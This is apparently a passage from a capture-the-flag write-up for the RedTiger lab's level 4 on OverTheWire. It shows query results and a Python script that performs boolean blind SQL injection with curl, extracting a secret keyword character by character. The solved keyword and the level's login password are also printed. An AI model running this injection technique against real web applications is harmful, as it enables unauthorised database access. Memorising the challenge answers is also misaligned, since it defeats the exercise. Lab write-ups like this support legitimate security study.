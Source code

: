 ```
response for v:	Query returned 0 rows. <br /><br />
response for w:	Query returned 0 rows. <br /><br />
response for x:	Query returned 0 rows. <br /><br />
response for y:	Query returned 0 rows. <br /><br />
response for z:	Query returned 0 rows. <br /><br />
response for 0:	Query returned 0 rows. <br /><br />
response for 1:	Query returned 0 rows. <br /><br />
response for 2:	Query returned 0 rows. <br /><br />
response for 3:	Query returned 0 rows. <br /><br />
response for 4:	Query returned 0 rows. <br /><br />
response for 5:	Query returned 0 rows. <br /><br />
response for 6:	Query returned 0 rows. <br /><br />
response for 7:	Query returned 0 rows. <br /><br />
response for 8:	Query returned 0 rows. <br /><br />
response for 9:	Query returned 0 rows. <br /><br />
```

The output indicates that the first character is "k", since this is the only option for which the query returned any rows. Based on that PoC, I added a few changes to get the full keyword:

```python
import string

def is_right_char(char,index):
    response = ! curl --silent --cookie level4login "https://redtiger.labs.overthewire.org/level4.php?id=0%20UNION%20SELECT%20keyword,id%20FROM%20level4_secret%20WHERE%20SUBSTRING(keyword,{currentindex},1)%20=%20%27{char}%27" | findstr "Query returned"
    response = response[0].split()[2]
    return response == '1'

# Get the cookie for level 4
foo = ! curl --silent --cookie-jar level4login --cookie level4login --request POST --data "password=put_the_kitten_on_your_head&level4login=Login" https://redtiger.labs.overthewire.org/level4.php
    
chars = list(string.ascii_lowercase + string.digits + "?!@#$%^&*") # possible characters
currentindex=1 # the index we are trying to solve now. starting from first one
stop = False

while (stop == False): # stop running when no character is the right one (reached to end of keyword)
    stop = True
    for char in chars:
        if (is_right_char(char,currentindex)): 
            print(char,end = "") # print only the right chars, on the same line
            stop = False
            break
    currentindex += 1
```

Output:

```
killstickswithbr1cks!
```

